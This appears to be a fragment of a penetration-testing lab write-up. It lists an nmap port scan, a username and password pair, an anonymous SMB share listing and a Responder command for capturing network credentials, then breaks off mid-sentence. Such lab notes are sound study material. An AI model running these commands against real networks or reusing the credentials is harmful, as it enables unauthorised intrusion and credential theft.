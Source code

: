 initial scan: `sudo nmap <ip> -T4 -p- --open -oN init.nmap`

Creds: `j.fleischman / J0elTHEM4n1990!`

![[Pasted image 20250906141422.png]]

`smbclient -N -L \\<ip>`
![[Pasted image 20250906142009.png]]

![[Pasted image 20250906142547.png]]

We found a list of CVEs on the SMB server in the IT share. We then used exploit code 

`sudo responder -I tun0 -w -d -F` 